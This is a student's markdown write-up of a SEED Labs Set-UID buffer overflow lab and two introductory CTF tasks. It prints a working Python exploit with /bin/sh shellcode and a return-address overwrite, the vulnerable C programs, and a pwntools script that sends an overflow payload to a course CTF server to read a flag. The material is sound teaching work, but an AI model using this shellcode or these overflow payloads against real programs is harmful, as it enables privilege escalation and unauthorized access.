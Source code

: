 # **Week #5**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Buffer_Overflow_Setuid/

### **Task 1**

- Shut off the address randomization (no stack and heap addresses randomization), so that the addresses of the variables can be the same in each execution of a program
- Changed shell linked to /bin/sh, so that the shell executed allows for Set-UID program attacks
- Compiled and ran the program
- Both 32-bit and 64-bit versions granted us access to the shell

![Terminal print of lab task1](img/Week5/Lab-Task1-Terminal.png)

### **Task 2**

- Compiled the program using make, which ran a makefile already configured to compile the program with the correct flags to enable the attack, such as turning off the StackGuard, and running the commands to make the program Set-UID
- Checked the permissions of the resulting programs, confirming the Set-UID bit

![Terminal print of lab task1](img/Week5/Lab-Task2-Terminal.png)

### **Task 3**

- **Attempting the buffer overflow**

- First ran the debug version of the program to understand the locations of each variable in the Stack. We used a break point in the function where the overflow is possible to analyze the addresses at that point in the program execution

Terminal 1 | Terminal 2
:---------:|:---------:
![Terminal print of lab task1](img/Week5/Lab-Task3-terminal1.png) | ![Terminal print of lab task1](img/Week5/Lab-Task3-terminal2.png)


- Then, changed the variables in the python script. This script will output to a file the contents to be written on the buffer to overflow
    - Changed the offset to 112, which is the distance between the start of the buffer and the return address, which we want to rewrite
    - Changed the ret value to the address to which we want the program to jump to (ret is the value to be written where offset specifies)
    - Changed the start value to match the start of the shellcode in the buffer with the position the program is going to jump to


<br>

**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcb6c     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```


- The buffer is filled with NOPs to cover any inaccuracy
- Ran the python script and then ran the program
- We were able to perform the buffer overflow and execute the shellcode

![Terminal print of lab task1](img/Week5/Lab-Task3-attack.png)



## **CTF 5**

### **Task 1**

#### **Checksec**

- No address randomization
- Regions in the memory with RWX permissions
- No cannaries in the stack
- Architecture is x86
- Stack has execute permissions (NX -no execute- disabled)


#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");

    FILE *fd = fopen(meme_file,"r");

    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);

    return 0;
}
```

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes (space it has initialized)
- After 20 bytes/chars, write what you want the array containing the name of file to be open to have (write flag.txt)
- This way the file that will be open is flag.txt

![Terminal print of attack and checksec](img/Week5/CTF-task1.png)

### **Task 2**


#### **Checksec**

- Checksec gives the same Information

![Terminal print Checksec](img/Week5/CTF-checksec2.png)

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(long*)val == 0xfefc2122) {
        printf("I like what you got!\n");

        FILE *fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);

    return 0;
}
```

#### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit file

![Terminal print of attack](img/Week5/CTF-attack2.png)

**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt")
r.interactive()
```
